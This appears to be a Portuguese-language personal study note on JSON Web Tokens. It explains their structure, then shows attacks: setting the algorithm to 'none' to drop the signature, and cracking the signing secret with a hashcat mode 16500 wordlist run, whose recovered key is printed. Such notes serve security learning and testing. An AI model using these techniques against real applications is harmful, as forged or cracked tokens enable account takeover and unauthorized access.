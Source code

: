 JWT, ou JSON Web Token, é um padrão aberto (RFC 7519) para a transmissão segura de informações entre partes como um objeto JSON. Ele é usado principalmente em sistemas de autenticação e autorização, permitindo que as aplicações validem e confiem nas informações contidas no token, pois ele é assinado digitalmente.

Um JWT consiste em três partes separadas por pontos ( . ): 
1. **Header:**
    Contém informações sobre o tipo de token e o algoritmo de assinatura usado.
2. **Payload:**
    Contém as declarações (claims) sobre a entidade, como informações do usuário ou dados específicos da aplicação.
3. **Signature:**
    É a assinatura digital do token, usada para verificar sua autenticidade e integridade.

### Exploit
Podemos explorar um JWT de algumas formas, tomamos como exemplo o token : 
```js
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6Im55Y29sYXNAand0LmNvbSIsInN1YnNjcmlwdGlvbiI6ImluYWN0aXZlIiwiaWF0IjoxNzQwMjEwNjIxLCJleHAiOjE3NDAyMTQyMjF9.bA2MSxmMfn8HEPJR60VRwr795NVmbY25Hk37_tjomjk
```

#### jwt.io
Podemos submetê-lo em um site faz a interpretação desse token. com o [jwt.io](http://jwt.io)

Aqui temos o token que submetemos.
![[Pasted image 20250627082838.png]]

Aqui temos o header, que especifica o algoritmo
![[Pasted image 20250627082909.png]]

Aqui temos a payload que é transmitida
![[Pasted image 20250627082926.png]]

E aqui temos a secret que é usada para a assinatura
![[Pasted image 20250627082940.png]]

#### Não validação do  algoritmo
Caso a aplicação não valide algoritmo, podemo defini-lo para `none` e tirar a parte da assinatura.
![[Pasted image 20250627084615.png]]

#### Quebra da assinatura
Podemos também fazer um brute force para tentar descobrir qual a chave usada para a assinatura. Podemos usar o hashcat no modo 16500 para quebra de token JWT. Vou utilizar a key `sensitivecontentpleasedontreadthxbyeforemployee` para fechar o JWT e a wordlist `Passwordsscraped-JWT-secrets.txt`

```sh
$ hashcat -m 16500 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6Im55Y29sYXNAand0LmNvbSIsInN1YnNjcmlwdGlvbiI6ImluYWN0aXZlIiwiaWF0IjoxNzQwMjEwNjIxLCJleHAiOjE3NDAyMTQyMjF9.nrHU0-7IBoavgmdSJcNJSwk6zyeBGcTZnUXNs-kp2nM' /usr/share/seclists/Passwords/scraped-JWT-secrets.txt

Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/scraped-JWT-secrets.txt
* Passwords.: 103965
* Bytes.....: 1127778
* Keyspace..: 103965

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6Im55Y29sYXNAand0LmNvbSIsInN1YnNjcmlwdGlvbiI6ImluYWN0aXZlIiwiaWF0IjoxNzQwMjEwNjIxLCJleHAiOjE3NDAyMTQyMjF9.nrHU0-7IBoavgmdSJcNJSwk6zyeBGcTZnUXNs-kp2nM:sensitivecontentpleasedontreadthxbyeforemployee
```
